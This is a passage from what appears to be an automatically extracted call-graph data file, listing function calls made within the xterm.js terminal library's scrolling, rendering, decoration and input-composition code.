"source": "static/js/xterm.js", "target": "_isThirdLevelShift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_showCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_isThirdLevelShift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getModifierState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_keyUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_customKeyEventHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateCursorStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_keyPress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_isThirdLevelShift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_showCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_inputEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_afterResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "measure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "syncScrollArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearAllMarkers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearTextureAtlas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearTextureAtlas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_reportFocus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_reportWindowsOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_renderCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleThemeChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "syncScrollArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "syncScrollArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleThemeChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "syncScrollArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "syncScrollArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_smoothScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_smoothScrollPercent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_smoothScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearSmoothScrollState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_smoothScrollPercent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearSmoothScrollState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_bubbleScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleWheel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getPixelsScrolled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_smoothScrollPercent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_smoothScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearSmoothScrollState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_bubbleScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_smoothScrollPercent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_smoothScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_clearSmoothScrollState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getPixelsScrolled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_applyScrollModifier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBufferElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getLinesScrolled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_applyScrollModifier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_applyScrollModifier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleTouchStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleTouchMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_bubbleScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_doRefreshDecorations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addRefreshCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_doRefreshDecorations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_doRefreshDecorations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_renderDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_renderDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshXPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshXPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onDispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshXPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "zones"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_addLineToZone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setPadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_lineIntersectsZone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_lineAdjacentToZone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_addLineToZone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_width"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshCanvasDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_registerDecorationListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_registerBufferChangeListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_registerDimensionChangeListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_registerDecorationListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_registerBufferChangeListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshDrawHeightConstants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshColorZonePadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_registerDimensionChangeListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshDrawConstants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshDrawHeightConstants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshDrawHeightConstants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshColorZonePadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setPadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshCanvasDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshDrawConstants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshColorZonePadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshDecorations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshCanvasDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_renderColorZone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_renderColorZone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_renderColorZone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_queueRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_refreshDecorations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isComposing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "compositionstart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "compositionupdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateCompositionElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "compositionend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_finalizeComposition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "keydown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_finalizeComposition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleAnyTextareaChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_finalizeComposition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 